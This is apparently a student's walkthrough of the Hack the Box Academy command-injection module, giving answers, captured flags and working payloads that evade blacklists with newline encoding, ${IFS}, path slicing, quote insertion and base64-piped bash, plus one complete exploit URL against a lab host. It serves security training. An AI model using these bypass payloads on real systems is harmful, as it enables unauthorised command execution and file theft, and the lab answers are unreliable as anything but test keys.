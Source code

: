 # Command Injections
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Command Injections
* Tier: II
* Difficulty: Medium
* Category: Offensive
* Time estimate: 6 hours
* Date: 12-05-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Detection
### Question:
![](./attachments/Pasted%20image%2020220512181746.png)

*Hint: Use Firefox or Chrome. It should start with "Please"*

![](./attachments/Pasted%20image%2020220513102509.png)

**Answer:** `Please match the requested format.`

---
## Injecting Commands
### Question:
![](./attachments/Pasted%20image%2020220512181825.png)

*Hints: You can either user burp or click `CTRL + U` in Firefox to show the source code*

![](./attachments/Pasted%20image%2020220513104047.png)

**Answer:** `17`

---
## Other Injection Operators
### Question:
![](./attachments/Pasted%20image%2020220512181939.png)

![](./attachments/Pasted%20image%2020220513104519.png)

**Answer:** `|`

---
## Identifying Filters
### Question:
![](./attachments/Pasted%20image%2020220512182009.png)

*Hint: Just see which injected characters does not cause a denied request. No need to reach command execution yet, as there are other protections in place.*

New Line character `\n` encoded as URL `%0a` is not blacklisted.

Payload: `%0a`

![](./attachments/Pasted%20image%2020220513121755.png)

**Answer:** `new-line`

---
## Bypassing Space Filters
### Question:
![](./attachments/Pasted%20image%2020220512182054.png)

*Hint: The size column (in bytes) is between the owner 'www-data' and the modification date.*

Working payloads for bypassing blacklisted space, ` `:

Payload 1: `%0a{ls,-la}`

Payload 2: `%0A%09ls%09-lah`

Payload 3: `%0A${IFS}ls${IFS}-la`

![](./attachments/Pasted%20image%2020220513121427.png)

**Answer:** `1613`

---
## Bypassing Other Blacklisted Characters
### Question:
![](./attachments/Pasted%20image%2020220512182139.png)

*Hint: Use the PATH environment variable along with the injection character you identified earlier*

Working payloads for bypassing blacklisted `/`:

Payload 1: `%0a{ls,${PATH:0:1}home}`

Payload 2: `%0A%09ls%09${PATH:0:1}home`

Payload 3: `%0A${IFS}ls${IFS}${PATH:0:1}home`

![](./attachments/Pasted%20image%2020220513122943.png)

**Answer:** `1nj3c70r`

---
## Bypassing Blacklisted Commands
### Question:
![](./attachments/Pasted%20image%2020220512182222.png)

*Hint: Use character insertion to bypass the blacklist on the 'cat' command.*

First, we need to locate 'flag.txt'

Payload: `%0a{ls,${PATH:0:1}home${PATH:0:1}1nj3c70r}`

![](./attachments/Pasted%20image%2020220513125949.png)

We can bypass the blacklisted `cat` command by adding a two `'`s. 

Payload: `%0a{c'a't,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}`

![](./attachments/Pasted%20image%2020220513125735.png)

**Answer:** `HTB{b451c_f1l73r5_w0n7_570p_m3}`

---
## Advanced Command Obfuscation
### Question:
![](./attachments/Pasted%20image%2020220512182300.png)

*Hint: Don't forget to bypass any filtered characters*

Using Base64 encoding to bypass filters:

![](./attachments/Pasted%20image%2020220608163429.png)

To make the payload useful, all we need to do is bypass the space. This can de done with `${IFS}`, `%09` or `{`x`,`x`}`.

Payload: `%0abash<<<$({base64,-'d'}<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)`

![](./attachments/Pasted%20image%2020220608163841.png)

**Answer:** `/usr/share/mysql/debian_create_root_user.sql`

---
## Skills Assessment
### Question:
![](./attachments/Pasted%20image%2020220512182411.png)

*Hint: It is always easier to inject our command in an input going at the end of the command, rather than in the middle of it, though both are possible.*

Payload: `https://178.128.46.35:31983/index.php?to=&from=tmp%26%27l%27s%09$%7BPATH:0:1%7Dflag.txt&finish=1&move=1`

**Answer:** `HTB{c0mm4nd3r_1nj3c70r}`

---
**Tags:** [[Hack The Box Academy]]